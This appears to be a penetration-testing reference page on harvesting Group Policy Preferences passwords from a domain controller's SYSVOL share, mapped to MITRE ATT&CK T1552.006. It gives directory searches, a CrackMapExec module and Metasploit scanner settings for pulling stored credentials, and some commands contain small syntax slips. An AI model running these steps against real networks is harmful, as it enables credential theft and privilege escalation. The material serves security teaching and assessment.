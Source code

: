 ```yaml
---
description: MITRE ATT&CK, Credential Access, Sub-technique T1552.006
---
```


# Group Policy Preferences

### Description

Unsecured credentials in Group Policy Preferences (GPP) can be an easy way to obtain credentials and escalate privileges. GPP's are stored in SYSVOL on domain controllers. However, the real kicker is that any domain user can view the SYSVOL share, obtain the password, and decrypt it within seconds.

### Tactics

#### Enumerating Credentials Directly on the SYSVOL Share

```bash
dir /s * .xml
```

#### Enumerating Credentials Remotely from SYSVOL

```bash
dir /s \\[FQN]\SYSVOL\[FQDN\ | more
```

#### Enumerating Credentials using CrackMapExec

```bash
crackmapexec smb [IP] -u [USERNAME] -p [PASSWORD] -M gpp_password
```

#### Enumerating Credentials using Metasploit

```bash
use auxiliary/scanner/smb/smb_enum_gpp
set rhosts [IP_Addresses]
set SMBUser [USERNAME]
set SMBPass [PASSWORD]
```

